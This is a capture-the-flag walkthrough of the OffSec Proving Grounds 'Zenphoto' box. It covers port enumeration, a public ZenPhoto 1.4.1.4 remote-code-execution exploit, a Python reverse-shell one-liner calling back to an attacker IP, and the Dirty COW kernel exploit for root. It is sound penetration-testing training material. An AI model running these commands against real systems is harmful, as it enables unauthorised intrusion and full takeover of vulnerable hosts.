

# Zenphoto — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Intermediate
**OS:** Linux

---

## TL;DR

ZenPhoto 1.4.1.4 RCE via `ajax_create_folder.php` → webshell → Python reverse shell → Dirty COW kernel exploit → root.

---

## Enumeration

```bash
nmap -sV -p- 192.168.244.41
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 5.3p1 |
| 23 | IPP | CUPS 1.4 |
| 80 | HTTP | Apache 2.2.14 |
| 3306 | MySQL | MySQL |

Old system — Apache 2.2.14, OpenSSH 5.3. Gobuster reveals a `/test` directory running a **ZenPhoto** application.

---

## Exploitation — ZenPhoto RCE (EDB-18083)

Searching for ZenPhoto exploits, there are plenty. We use the authenticated RCE at [EDB-18083](https://www.exploit-db.com/exploits/18083):

```bash
php 18083.php 192.168.244.41 /test/
```

This gives us a webshell. Upgrade to reverse shell:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.250",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/sh")'
```

---

## Privilege Escalation — Dirty COW (CVE-2016-5195)

Running linpeas reveals the kernel is vulnerable to **Dirty COW**:



Using [EDB-40839](https://www.exploit-db.com/exploits/40839):

```bash
gcc -pthread 40839.c -o dirty -lcrypt
chmod +x dirty
./dirty
```

The exploit creates a new user `firefart` with root privileges. Enter your desired password when prompted.

Get a fresh shell and switch:

```bash
su firefart
# Password: <your password>
```

**Root.** 🎉

---

## Key Takeaways

- **Dirty COW (CVE-2016-5195)** is a kernel exploit for older Linux kernels — always check kernel version on legacy boxes
- **ZenPhoto** has multiple known vulnerabilities — the `ajax_create_folder.php` RCE is particularly reliable
- Dirty COW creates a new user called `firefart` — you'll need to `su` to that user after the exploit runs

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
